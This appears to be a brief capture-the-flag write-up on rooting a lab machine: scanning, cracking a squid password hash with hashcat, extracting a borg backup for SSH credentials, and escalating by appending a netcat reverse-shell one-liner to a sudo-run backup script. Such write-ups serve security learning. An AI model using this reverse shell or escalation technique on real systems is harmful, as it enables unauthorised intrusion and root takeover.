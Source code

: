 

scanning and looking for hidden folders

![scan](imgs/scan.png "scan")

found `/admin`, `/etc/squid`

found paswd file in `/etc/squid`

![hash](imgs/hash.png "hash")

found conf file in /etc/squid

![conf](imgs/conf.png "conf")

cracked the hash with hashcat

```
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
![hashcat](imgs/hashcat.png "hashcat")

downloaded archive from website 

its using borg

![borgbackupinfo](imgs/borgbackupinfo.png "borgbackupinfo")

![borgconfig](imgs/borgconfig.png "borgconfig")

we need passphrase for the archive, the previous one does the work

![borglist](imgs/borglist.png "borglist")


```
borg extract home/field/dev/final_archive/::music_archive
```

after extracting:

![borgusers](imgs/borgusers.png "borgusers")


extracted borg backup and found `note.txt` in `/home/alex/Documents`

![note](imgs/note.png "note")

now we probably have ssh credentials

we got user flag

![user](imgs/user.png "user")

found interesting things with sudo -l

![sudol](imgs/sudol.png "sudol")

content of the backup.sh file:

![backup](imgs/backup.png "backup")

i added write permission to our file `chmod +w`

then put reverse shell into our script

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.91.59 4445 >/tmp/f" >> backup.sh
```

![rev](imgs/rev.png "rev")

and we got root access and root flag

![root](imgs/root.png "root")

## MACHINE PWNED

